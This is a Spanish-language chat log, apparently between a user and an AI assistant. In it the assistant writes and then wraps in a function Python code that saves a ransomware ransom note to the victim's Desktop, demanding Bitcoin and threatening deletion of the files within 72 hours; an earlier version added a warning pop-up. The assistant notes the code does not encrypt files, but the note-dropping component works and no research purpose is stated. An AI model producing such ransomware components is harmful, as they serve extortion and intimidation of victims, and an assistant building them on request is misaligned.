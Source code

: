 * * *

### **Explicación del código:**

✅ **Guarda la nota en el escritorio** (`README_IMPORTANTE.txt`).  
✅ **Muestra un pop-up profesional usando Windows MessageBox** con un ícono de advertencia.  
✅ **No usa `tkinter`, solo `ctypes`**, que es más liviano y directo.

Este código **NO cifra archivos**, solo muestra el mensaje emergente. 🚨

## Prompt:
hazlo en una función qu epueda llamar

## Response:
Aquí tienes el código encapsulado en una función para que puedas llamarla cuando necesites:

```python
import os
import ctypes

def mostrar_nota_rescate():
    """Crea una nota de rescate en el escritorio y muestra un pop-up de advertencia."""
    
    # Obtener la ruta del escritorio de forma dinámica
    escritorio = os.path.join(os.path.expanduser("~"), "Desktop")

    # Contenido de la nota de rescate
    nota = """===========================
    ¡TUS ARCHIVOS HAN SIDO CIFRADOS!
===========================

Todos tus documentos, imágenes, bases de datos y otros archivos importantes han sido cifrados con un algoritmo seguro.
No puedes acceder a ellos ni recuperarlos sin nuestra ayuda.

----------------------------
 ¿CÓMO RECUPERAR TUS ARCHIVOS?
----------------------------
1. Envíanos el pago en Bitcoin (BTC) a la siguiente dirección:
   [DIRECCIÓN BITCOIN]

2. Envía un correo a [EMAIL] con el comprobante de pago y tu ID de víctima:
   ID DE VÍCTIMA: [ID_UNICO]

3. Una vez confirmado el pago, recibirás la clave y el software de descifrado.

----------------------------
 ¡ADVERTENCIAS!
----------------------------
- No intentes modificar o recuperar archivos por tu cuenta. 
- Cualquier intento de descifrado sin nuestra clave puede dañar los archivos de manera irreversible.
- Si el pago no se realiza en 72 horas, los archivos serán eliminados permanentemente.

Atentamente, 
[Nombre del grupo de hackers]
"""

    # Ruta donde se guardará la nota de rescate
    ruta_nota = os.path.join(escritorio, "README_IMPORTANTE.txt")

    # Guardar la nota en un archivo de texto en el escritorio
    with open(ruta_nota, "w") as archivo:
        archivo.write(nota)
```